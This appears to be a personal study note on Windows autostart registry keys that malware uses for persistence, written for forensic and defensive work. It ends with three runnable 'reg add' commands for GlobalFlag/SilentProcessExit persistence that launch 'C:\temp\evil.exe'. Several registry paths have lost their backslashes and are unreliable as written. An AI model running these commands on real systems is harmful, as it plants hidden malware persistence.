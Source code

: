 #Autostart_Extensibility_Points #ASEP

[Persistence Mechanisms 13Cubed](https://youtu.be/ImGaqVHAbCk?si=EprOd-nWTgAP_r3r)

[Common Malware Persistence mechanisms](https://www.infosecinstitute.com/resources/malware-analysis/common-malware-persistence-mechanisms/)

[[Run_Keys]]

## BootExecute Key 
- launches before subsystem

`HKEY_LOCAL_MACHINESYSTEM\ControlSet002\Control\Session`

## WinLogon Process Keys

### Userinit Key
- launch login scripts

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`

### Notify Key
- description: HANDLES (Ctrl+Alt+Del)

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify`

### Explorer.exe Key
- description: Points to explorer.exe

`HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindows NTCurrentVersionWinlogonShell`

## Startup Key
- description

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell\Folders`
`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders`
`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders`
`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders`

## Services

description: ability for services to boot at start time

`HKEY_LOCAL_MACHINESYSTEMCurrentControlSetservices`

remote backgrounder services

`HKEY_LOCAL_MACHINESoftwareMicrosoftWindowsCurrentVersionRunServicesOnce`

`HKEY_LOCAL_MACHINESoftwareMicrosoftWindowsCurrentVersionRunServices`

## Browser Helper Objects

description: 

`HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionExplorerBrowser Helper Objects`

## AppInit_DLLs

`HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindows NTCurrentVersionWindowsAppInit_DLLs`



[Persistence using global flags](https://oddvar.moe/2018/04/10/persistence-using-globalflags-in-image-file-execution-options-hidden-from-autoruns-exe/)
```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\evil.exe"
```